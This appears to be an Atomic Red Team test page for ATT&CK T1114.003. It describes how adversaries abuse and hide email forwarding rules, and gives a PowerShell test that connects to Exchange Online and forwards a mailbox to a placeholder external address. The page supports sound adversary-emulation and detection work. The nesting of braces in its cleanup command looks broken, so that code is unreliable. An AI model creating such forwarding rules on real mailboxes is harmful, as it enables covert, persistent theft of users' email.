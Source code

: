 # T1114.003 - Email Collection: Email Forwarding Rule

## [Description from ATT&CK](https://attack.mitre.org/techniques/T1114/003)

<blockquote>Adversaries may setup email forwarding rules to collect sensitive information. Adversaries may abuse email forwarding rules to monitor the activities of a victim, steal information, and further gain intelligence on the victim or the victim’s organization to use as part of further exploits or operations.(Citation: US-CERT TA18-068A 2018) Furthermore, email forwarding rules can allow adversaries to maintain persistent access to victim's emails even after compromised credentials are reset by administrators.(Citation: Pfammatter - Hidden Inbox Rules) Most email clients allow users to create inbox rules for various email functions, including forwarding to a different recipient. These rules may be created through a local email application, a web interface, or by command-line interface. Messages can be forwarded to internal or external recipients, and there are no restrictions limiting the extent of this rule. Administrators may also create forwarding rules for user accounts with the same considerations and outcomes.(Citation: Microsoft Tim McMichael Exchange Mail Forwarding 2)(Citation: Mac Forwarding Rules)

Any user or administrator within the organization (or adversary with valid credentials) can create rules to automatically forward all received messages to another recipient, forward emails to different locations based on the sender, and more. Adversaries may also hide the rule by making use of the Microsoft Messaging API (MAPI) to modify the rule properties, making it hidden and not visible from Outlook, OWA or most Exchange Administration tools.(Citation: Pfammatter - Hidden Inbox Rules)

In some environments, administrators may be able to enable email forwarding rules that operate organization-wide rather than on individual inboxes. For example, Microsoft Exchange supports transport rules that evaluate all mail an organization receives against user-specified conditions, then performs a user-specified action on mail that adheres to those conditions.(Citation: Microsoft Mail Flow Rules 2023) Adversaries that abuse such features may be able to enable forwarding on all or specific mail an organization receives. </blockquote>

## Atomic Tests

- [Atomic Test #1 - Office365 - Email Forwarding](#atomic-test-1---office365---email-forwarding)

<br/>

## Atomic Test #1 - Office365 - Email Forwarding

Creates a new Inbox Rule to forward emails to an external user via the "ForwardTo" property of the New-InboxRule Powershell cmdlet.

**Supported Platforms:** Office-365

**auto_generated_guid:** 3234117e-151d-4254-9150-3d0bac41e38c

#### Inputs:

| Name             | Description                 | Type   | Default Value                |
| ---------------- | --------------------------- | ------ | ---------------------------- |
| username         | office-365 username         | string |                              |
| password         | office-365 password         | string |                              |
| rule_name        | email rule name             | string | Atomic Red Team Email Rule   |
| forwarding_email | destination email addresses | string | Atomic_Operator@fakeemail.aq |

#### Attack Commands: Run with `powershell`!

```powershell
$secure_pwd = "#{password}" | ConvertTo-SecureString -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential -ArgumentList "#{username}", $secure_pwd
Connect-ExchangeOnline -Credential $creds
New-InboxRule -Name "#{rule_name}" -ForwardTo "#{forwarding_email}"
```

#### Cleanup Commands:

```powershell
$secure_pwd = "#{password}" | ConvertTo-SecureString -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential -ArgumentList "#{username}", $secure_pwd
Connect-ExchangeOnline -Credential $creds
Get-InboxRule | Where-Object { $_.Name -eq "#{rule_name}" | ForEach-Object { Remove-InboxRule -Identity $_.Identity -Force -Confirm:$False }
```

#### Dependencies: Run with `powershell`!

##### Description: ExchangeOnlineManagement PowerShell module must be installed. Your user must also have an Exchange license.

##### Check Prereq Commands:

```powershell
$RequiredModule = Get-Module -Name ExchangeOnlineManagement -ListAvailable
if (-not $RequiredModule) {exit 1}
if (-not $RequiredModule.ExportedCommands['Connect-ExchangeOnline']) {exit 1} else {exit 0}
```

##### Get Prereq Commands:

```powershell
Install-Module -Name ExchangeOnlineManagement
Import-Module ExchangeOnlineManagement
```

<br/>
